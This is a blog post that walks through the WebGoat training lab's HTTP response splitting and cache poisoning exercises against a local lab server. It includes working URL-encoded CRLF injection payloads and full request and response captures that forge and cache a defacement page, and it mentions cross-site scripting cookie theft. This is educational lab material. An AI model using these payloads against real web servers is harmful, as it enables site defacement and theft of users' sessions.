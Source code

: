 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: General"
subtitle: "HTTP Response Splitting and Cache Poisoning"
date:   2017-01-24 00:01:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# HTTP Response Splitting
HTTP Response splitting is an attack that can be performed on a webserver that does not properly implement sanitization of user input on webpage forms. The specific exploitation that can be performed involves the use of carriage returns (%0a in HTML) and linefeeds (%0d in HTML). 

Normally, form entry is passed in a webpage's (client control) request to the webserver. The form fields are then appended onto the request header like so:

```
GET http://website.com/form_page?form1=field1&form2=field2 HTTP/1.1
<Rest of the request>
```

So, we can control part of the request with header data that we enter into our forms. This might not seem immediately malicious, but let's take a look at the WebGoat example:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&language=test
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

language=test&SUBMIT=Search%21
```

So in our form we simply entered "test". The POST request URL looks like we are going to be redirected to another resource on the webserver. Let's look at the server response and see what the next step is going to be:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 0
Via: 1.1 127.0.1.1
Vary: Accept-Encoding
Connection: close
```

Alright, so we are being redirected to the location specified by the 'Location' header in the response. Or more clearly:

```
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
```

Aha! One thing should pop out at us here, and that is the fact that our form input ("test") is found sitting right at the end of the Location header. Now while this request takes us to the page intended by the server, we can manipulate this behaviour by abusing the response parsing mechanism, or the webcache.

The webcache sits between the user and the webapplication, parsing responses from the webapplication to hand back to users. The exploit that we are abusing lies in tricking the webcache to hand back two responses from a single request. If we are allowed to insert newline characters(%0a on Linux, %0a%0d on Windows) into our request, when the webcache handles the redirect response we can trick it into thinking that there should be two responses by truncating the original response and adding another completely attacker-controlled response to the webcache.

An example form exploit input could be like so (%20 is a URL-encoded space):

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

The first section truncates the original intended response by specifying a false Content-Length header. URL-decoded, the redirect response now looks like so:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0
```

The response is considered complete at this point. However, we have appended some extra data, that URL-decoded looks like so:

```
HTTP/1.1 200 OK
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now, the webcache only saw one request sent to the webserver by us (the attacker). Therefore our redirect is handled normally and we are served the cached response, which is the redirect to the location specified in the Location header. However, there is another response that was created from our first request. Using this response combined with some knowledge of how the webcache and webserver interact, we can craft an attack that could affect any other users of the resource.

# Cache Poisoning
So we have previously shown that we can split a single request into two separate responses, the second of which is completely attacker controlled. Now we can manipulate a mechanism that the webserver and webcache use for serving content in order to expose our crafted response to the maximum number of target users of the website.

Remember that in our first HTTP splitting example, the truncated response for the redirect resource was matched to our intial request. This left our payload response "on the wire" so to speak, as there was not a matching request for this resource. In a naive attack, the next request for a resource would be matched to our payload response and the payload would be served to whoever sent that request. However, we want to maximize the impact of our attack. Enter caching.

Caching is a way that the webserver serves the most up-to-date version of a resource to users of the site. Any requests that are sent for a resource on a webserver are served the cached version of the resource. Using HTTP splitting, we can perform a "cache poisoning" attack, in which we replace the expected cache of a resource with our malicious version. This is done by adding a "Last-Modified" header to the forged request with a date in the future.

So, now our attack looks like this:

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aLast-Modified:%20Fri,%2020%20Jan%202018%2013:35:00%20EST%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

which translates to the following responses:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0

HTTP/1.1 200 OK
Last-Modified: Fri, 20 Jan 2018 13:35:00 EST
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now during this attack we send two requests. The first request is our malicious form, and the second request is for the webserver resource that we would like to replace with our malicious response, like so:

Request 1:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=foobar%0aContent-Length:%2043%0a%3Chtml%3E123456789012345678901234567890%3C/html%3E
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 271

language=test%250aContent-Length%3A%25200%250a%250aHTTP%2F1.1%2520200%2520OK%250aLast-Modified%3A%2520Fri%2C%252020%2520Jan%25202018%252013%3A35%3A00%2520EST%250aContent-Type%3A%2520text%2Fhtml%250aContent-Length%3A%252017%250a%3Chtml%3Epwnd%3C%2Fhtml%3E&SUBMIT=Search%21
```

Request 2:

```
GET /WebGoat/index.html HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```

When we send the malicious request, it is matched to the original redirect response. Now we have another response waiting to match with a request. Now our second request is received and matched with our malicious response. The webcache sees that the "Last-Modified" header is present in the response, and the date is more recent than the existing cached version, so it replaces the cache for the requested resource ("index.hmtl") with the malicious response ("<html>pwnd</html>").

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_1/part1pwnd.jpg">

This can be much more serious than a simple defacement like we performed here. Alternatively, an attacker could append JavaScript to perform cross-site scripting attacks to steal cookies or other sensitive user data. In order to prevent this attack, any user-controlled data that can end up in a request header needs to be sanitized to prevent insertion of carriage-return and linefeed characters.

### Resources

1 [HTTP Response Splitting Whitepaper][http-splitting-whitepaper]

2 [OWASP HTTP Response Splitting][owasp-splitting]

[http-splitting-whitepaper]:https://dl.packetstormsecurity.net/papers/general/whitepaper_httpresponse.pdf
[owasp-splitting]:https://www.owasp.org/index.php/HTTP_Response_Splitting